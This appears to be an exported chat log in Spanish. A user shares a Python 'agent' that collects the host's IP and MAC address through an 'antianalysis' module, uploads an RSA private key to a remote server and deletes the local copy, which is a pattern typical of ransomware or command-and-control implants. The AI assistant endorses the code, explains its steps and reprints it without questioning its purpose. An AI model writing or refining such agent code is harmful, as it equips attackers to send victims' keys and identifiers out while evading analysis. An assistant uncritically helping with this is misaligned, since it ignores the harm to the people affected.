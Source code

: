     response = requests.post(server_url, data=data, files=files)    
    if response.status_code == 200:
        print("Agente registrado con éxito.")
        os.remove("rsa_private.pem")  # Eliminar la clave privada después de usarla
    else:
        print(f"Error al registrar el agente: {response.text}")

if __name__ == "__main__":
    register_agent()

## Response:
Para recuperar y enviar la clave privada desde el cliente al servidor de la manera correcta, el código que proporcionas está bastante cerca de lo que necesitas. Sin embargo, hay un detalle importante que debes tener en cuenta: cuando usas `requests.post()` con el parámetro `files`, el archivo se debe enviar como un archivo binario (lo cual ya estás haciendo correctamente), y el servidor debe estar listo para recibir este archivo y manejarlo adecuadamente.

Voy a repasar los pasos, asegurándome de que todo esté bien implementado.

### Lo que hace el código del cliente:

1.  **Obtenemos la IP y la MAC del agente**: Esto está bien implementado utilizando las funciones `get_ip_address()` y `antianalysis.get_mac_address()`. Estas obtienen la IP y la dirección MAC del sistema.
    
2.  **Cargar la clave privada**: La función `load_private_key()` carga la clave privada desde un archivo `.pem`. Se está utilizando el modo binario `rb`, lo cual es correcto.
    
3.  **Enviar la clave privada y otros datos al servidor**:
    
    *   Estás enviando la clave privada como un archivo con `requests.post()`, utilizando `files` para pasar el archivo como un archivo binario. El archivo se envía correctamente con el nombre `rsa_private.pem` y el tipo MIME `application/x-pem-file`.
        

### Código del cliente (sin cambios):

```python
import requests
import socket
import os
import antianalysis

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None

# Función principal del agente
def register_agent():
    # Obtener IP y MAC del agente
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    private_key = load_private_key()
    
    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
        return
```